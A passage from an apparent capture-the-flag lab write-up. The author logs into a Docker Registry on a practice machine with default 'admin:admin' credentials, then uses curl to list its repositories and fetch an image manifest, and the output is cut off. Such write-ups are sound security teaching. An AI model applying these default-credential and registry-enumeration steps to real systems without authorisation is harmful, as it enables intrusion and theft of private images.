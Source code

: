 Using `admin:admin` worked. I was forwarded to what looked like a web API. I didn't have any commands to use, so doing some basic research for Docker Registry API commands was the next step. As usual, Hacktricks had some commands.

```
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://docker.registry.htb/v2/_catalog -L
{"repositories":["bolt-image"]}
```

So we have one repository here. We can pass the credentials we used earlier to view more information.

{% code overflow="wrap" %}
```
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://docker.registry.htb/v2/bolt-image/manifests/latest -L
{
   "schemaVersion": 1,
   "name": "bolt-image",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
      },
      {
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
      },
      {
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
      },
      {
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"
      },
      {
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
   ],
<TRUNCATED>
```
{% endcode %}

